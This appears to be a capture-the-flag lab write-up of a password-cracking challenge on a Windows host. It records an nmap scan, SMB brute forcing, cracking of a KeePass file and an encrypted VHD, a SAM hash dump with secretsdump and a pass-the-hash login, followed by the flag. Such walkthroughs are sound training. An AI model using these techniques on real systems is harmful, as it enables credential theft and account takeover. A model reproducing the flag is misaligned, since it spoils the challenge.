 Interesting username: Johanna

### Nmap Scan Results
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 14:12 EDT
Nmap scan report for 10.129.200.179
Host is up (0.22s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-13T18:13:16+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=WINSRV
| Not valid before: 2024-04-12T18:11:40
|_Not valid after:  2024-10-12T18:11:40
| rdp-ntlm-info: 
|   Target_Name: WINSRV
|   NetBIOS_Domain_Name: WINSRV
|   NetBIOS_Computer_Name: WINSRV
|   DNS_Domain_Name: WINSRV
|   DNS_Computer_Name: WINSRV
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-13T18:13:07+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-04-13T18:13:11
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 5s, deviation: 0s, median: 4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.99 seconds
```

### SMB Brute Force

Starting smb brute force with the module `auxiliary/scanner/smb/smb_login` from Metasploit, with the username Johanna and the mutated password list.

Found credentials: Johanna:1231234!

Connected to RDP with the credentials

### kdbx file

Brute Forcing the kdbx file found in the documents folder:
![[Pasted image 20240413222522.png]]

Found password: Qwerty7!

### Found Credentials in the KeePass File
![[Pasted image 20240413223948.png]]

david:gRzX7YbeTcDG7

### SMB Share
![[Pasted image 20240413224329.png]]

### Cracking Backup.vhd
![[Pasted image 20240413230158.png]]

123456789!

Found SAM and SYSTEM files inside the drive.

### Dumped hashes
```
# python3 /opt/impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL
Impacket v0.12.0.dev1+20230928.173259.06217f05 - Copyright 2023 Fortra

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e53d4d912d96874e83429886c7bf22a1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9e73cc8353847cfce7b5f88061103b43:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:6ba6aae01bae3868d8bf31421d586153:::
david:1009:aad3b435b51404eeaad3b435b51404ee:b20d19ca5d5504a0c9ff7666fbe3ada5:::
johanna:1010:aad3b435b51404eeaad3b435b51404ee:0b8df7c13384227c017efc6db3913374:::
[*] Cleaning up...
```

### Logging in With the Administrator's Hash
![[Pasted image 20240413232352.png]]

### Getting the flag
![[Pasted image 20240413232526.png]]

HTB{PWcr4ck1ngokokok}
